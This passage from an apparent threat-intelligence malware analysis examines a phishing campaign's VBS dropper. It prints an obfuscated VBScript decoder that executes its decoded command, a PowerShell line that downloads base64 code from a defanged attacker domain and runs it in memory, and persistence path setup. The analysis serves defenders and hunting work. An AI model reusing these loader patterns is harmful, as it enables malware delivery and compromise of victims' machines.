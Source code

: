 <h6>The second VBS use too a regex for parse each line and select the data at each X defined elements (here 7) and merge all for getting the command to execute. On compared to the first VBS, we can note that the structure is the same with a different algorithm.</h6>

```vb
Dim Regex, Mod, Data
Set Regex = New RegExp
Regex.Pattern = "(.{7})(.)"
Regex.Global = True
Mod = 0
Data = ""

Sub DecodeData
Decode "mp<}JMRpBUCwlcgoJLlckgzwD; [...] Sas{X-H.I{mObW"
Decode "LfzDqZdi"
'[...]
End Sub

Function build ( a )
  Data = Data & a
End Function

Function Decode (input)
  build( Regex.Replace(input, "$2" ) )
End Function

DecodeData 
CreateObject("WScript.Shell").Run Data, Mod ' run decoded command
Mod= "iawzi"
'giovedi 8855 marzo
```

<h6>By the retrohunt, the group seems increment its algorithm on the same template at each sending mass mails by batches of mails of theirs campaign, it can be interesting to use this reference for hunting.</h6>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Unknown/2020-06-22/Pictures/CompVersion.png"></img></center>

<h6>Both have the same method for the next steps of the operations, this uses the downloadString method for getting the bytes, convert from the base 64 and execute it in memory.</h6>

```csharp
powershell uvywg="gzzhv";
iex ( [string][System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String( ((New-Object Net.WebClient).DownloadString('hxxp://documento.selltokengarffhonda.com/?need=dfgee52&vid=test1&99895')))));;;;;;
```

<h6>The first part define the variables for the different paths, URL and payloads. Create the following folder if don't exists.</h6>

```csharp
$path_lib = $env:PUBLIC + "\Libraries"
if (-not (Test-Path $path_lib)) { md $path_lib; }
$path_vbs = $path_lib + "\WindowsIndexingService.vbs";
$path_tmp = $env:temp + "\AFX50058.tmp";
$path_db  = $path_lib + "\tsource.db";
$myurlpost = $false;
$pay = "w";
```
